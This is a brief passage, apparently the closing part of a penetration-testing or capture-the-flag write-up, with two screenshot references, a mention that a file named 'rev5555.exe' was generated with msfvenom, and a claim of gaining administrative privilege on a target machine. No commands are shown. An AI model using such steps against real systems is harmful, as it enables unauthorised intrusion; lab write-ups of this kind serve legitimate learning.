

*Note: The `rev5555.exe` is generated by `msfvenom`.*



Now, I finally got administrative privilege on the target machine! So, I went to sleep.
